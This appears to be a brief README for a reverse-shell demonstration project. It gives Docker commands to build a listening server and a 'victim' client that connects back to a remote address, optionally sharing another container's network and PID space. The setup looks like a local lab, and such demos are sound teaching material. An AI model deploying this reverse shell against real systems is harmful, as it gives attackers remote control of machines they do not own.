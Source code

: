 # Reverse shell example

In order to run the server:

```
cd server/
docker build . -t reverse-shell-server
docker run -p 8888:8888 -it reverse-shell-server:latest
```


To run the client ('victim'):
```
cd client/
docker build . -t reverse-shell-client


# If want to just run commands inside the docker container
docker run -e REMOTE_SERVER=172.17.0.1 -itd reverse-shell-client:latest


# if want to be on the same network and PID space as other docker containers
docker run -e REMOTE_SERVER=172.17.0.1 -itd --network=container:<container-name> --pid=container:<container-name> reverse-shell-client:latest
```
